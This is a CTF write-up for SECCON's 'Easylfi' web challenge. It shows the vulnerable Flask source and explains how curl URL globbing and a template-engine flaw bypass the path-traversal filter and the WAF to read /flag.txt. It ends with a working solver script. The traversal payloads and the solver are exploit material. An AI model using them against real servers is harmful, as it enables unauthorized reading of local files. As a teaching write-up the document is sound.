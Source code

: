 ```yaml
---
title: Easylfi
published: true
ayout: post
date: 2022-10-15 18:54 +0600
tags: [CTF]
featured: false
---
```


I solved some web challenges with my idol ginoah. The challenges are awesome!

Description:

Can you read my secret?

The goal is to LFI /flag.txt

This flask app use curl to get a local file

This is server-side challenge.

You access the server:

![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-01.png)


If you submit `test`, the server redirects to `/hello.html?%7Bname%7D=test:`


![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-02.png)


Source code `(web/app.py` ):


```python
from flask import Flask, request, Response
import subprocess
import os

app = Flask(__name__)


def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text


@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response


@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("

    try:
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
    except subprocess.TimeoutExpired:
        return "Timeout"

    if proc.returncode != 0:
        return "Something wrong..."
    return template(proc.stdout.decode(), request.args)

```

The goal is stealing a flag from `/flag.txt`.

## Solution


### Step 1: path traversal

The server uses curl to read files:


```code
proc = subprocess.run(
    ["curl", f"file://{os.getcwd()}/public/{filename}"],
    capture_output=True,
    timeout=1,
)
```



Unfortunately, path traversal to `/flag.txt` is prevented:

```code
if ".." in filename or "%" in filename:
    return "Do not try path traversal :("
```

By the way, curl has a feature of  [URL globbing](https://everything.curl.dev/cmdline/globbing), and you can access multiple resources at the same time.
You can bypass the above defense using this feature:

```
$ http "http://localhost:3000/.{.}/.{.}/flag.txt"
HTTP/1.1 200 OK
Connection: close
Content-Length: 10
Content-Type: text/html; charset=utf-8
Date: Sat, 05 Nov 2022 12:09:18 GMT
Server: Werkzeug/2.2.2 Python/3.10.8

Try harder

```

However, the following WAF hides the flag response:

```
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response

```

### Step 2: bypassing WAF

The server returns a response after the following process:


```return template(proc.stdout.decode(), request.args)```


The implementation of the template engine is as follows:


```code
def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text

```

Is it possible to show the flag string without `SECCON` by abusing this template engine?

The first important point is that `validate("{")` is `True`. You can bypass it with this bug and URL globbing.

Example payload:

   - URL: ```file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}```
   - params:

   ```code
   {
    "{name}": "{",
    "{": "}{",
    "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": ""
}

```

The process in the template engine is as follows.

The initial state:

```
... snip ...
<body>
  <h1>Hello, {name}!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}

```

```"{name}" → "{":```

```
... snip ...
<body>
  <h1>Hello, {!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}

```

`"{" → "}{":`


```
... snip ...
<body>
  <h1>Hello, }{!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON}{real_flag}

```

```"{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}" → "":```


```
... snip ...
<body>
  <h1>Hello, }{real_flag}

```

### Solver

```python
import os
import httpx

BASE_URL = f"http://easylfi.seccon.games:3000"

res = httpx.get(
    BASE_URL + "/{.}./{.}./{app/public/hello.html,flag.txt}",
    params={
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": "",
    },
)

print("SECCON" + res.text.split("<h1>Hello, }")[1])

```

## exit

